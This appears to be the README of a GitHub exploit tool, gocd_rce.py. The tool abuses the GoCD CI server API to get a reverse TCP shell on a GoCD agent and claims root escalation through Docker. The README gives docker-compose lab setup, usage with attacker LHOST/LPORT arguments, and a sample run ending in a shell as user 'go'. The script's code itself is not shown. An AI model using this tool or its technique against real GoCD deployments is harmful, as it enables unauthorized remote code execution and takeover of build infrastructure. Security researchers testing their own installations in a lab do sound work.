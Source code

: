 # gocd_rce.py

## Summary

Gives you a remote reverse tcp connection on gocd agent by abuse the gocd api.
It also privesc to root by abuse docker if it is present.

## Usage

Start docker container with gocd if you want to test this locally

```sh
 gocd_rce  master ⦿ docker-compose build
goagent uses an image, skipping
Building gocd
Step 1/2 : FROM gocd/gocd-server:v18.6.0
 ---> 3f8e515e3024
Step 2/2 : EXPOSE 8153 8154
 ---> Using cache
 ---> 25e65f538c62
Successfully built 25e65f538c62
Successfully tagged gocdrce_gocd:latest

gocd_rce  master ⦿ docker-compose up -d
Creating gocdrce_goagent_1 ... done
Creating gocdrce_gocd_1    ... done
```

Verify that container is running.

```sh
gocd_rce  master ⦿ docker ps
CONTAINER ID        IMAGE                                COMMAND                  CREATED             STATUS              PORTS               NAMES
4c59edc255b2        gocd/gocd-agent-alpine-3.7:v18.6.0   "/docker-entrypoint.…"   14 seconds ago      Up 13 seconds                           gocdrce_goagent_1
b8dc12861b64        gorce_gocd                           "/docker-entrypoint.…"   13 hours ago        Up 13 hours                             gorce_gocd_1
```

Run ./gocd_rce.py

```sh
gocd_rce  master ⦿ ./gocd_rce.py

  ▄████  ▒█████   ▄████▄  ▓█████▄  ██▀███   ▄████▄  ▓█████
 ██▒ ▀█▒▒██▒  ██▒▒██▀ ▀█  ▒██▀ ██▌▓██ ▒ ██▒▒██▀ ▀█  ▓█   ▀
▒██░▄▄▄░▒██░  ██▒▒▓█    ▄ ░██   █▌▓██ ░▄█ ▒▒▓█    ▄ ▒███
░▓█  ██▓▒██   ██░▒▓▓▄ ▄██▒░▓█▄   ▌▒██▀▀█▄  ▒▓▓▄ ▄██▒▒▓█  ▄
░▒▓███▀▒░ ████▓▒░▒ ▓███▀ ░░▒████▓ ░██▓ ▒██▒▒ ▓███▀ ░░▒████▒
 ░▒   ▒ ░ ▒░▒░▒░ ░ ░▒ ▒  ░ ▒▒▓  ▒ ░ ▒▓ ░▒▓░░ ░▒ ▒  ░░░ ▒░ ░
  ░   ░   ░ ▒ ▒░   ░  ▒    ░ ▒  ▒   ░▒ ░ ▒░  ░  ▒    ░ ░  ░
░ ░   ░ ░ ░ ░ ▒  ░         ░ ░  ░   ░░   ░ ░           ░
      ░     ░ ░  ░ ░         ░       ░     ░ ░         ░  ░
                 ░         ░               ░
[mikael.kall@kindredgroup.com]

Usage: ./gocd_rce.py <HOST> <LHOST> <LPORT> [USERNAME] [PASSWORD]

EXAMPLE: ./gocd_rce.py '127.0.0.1' 10.10.14.24 1337 admin password
```        

Run the exploit.

```sh
gocd_rce  master ⦿ ./gocd_rce.py '127.0.0.1' 192.168.1.94 1337
[+] LHOST = 192.168.1.94
[+] LPORT = 1337
[+] Payload
[+] Payload
[+] Exploit
[*] Waiting for agent to schedule payload, note this can take some time..
bash-4.4$ ls
README.md  pop.sh
bash-4.4$ id
uid=1000(go) gid=1000(go) groups=1000(go)
```
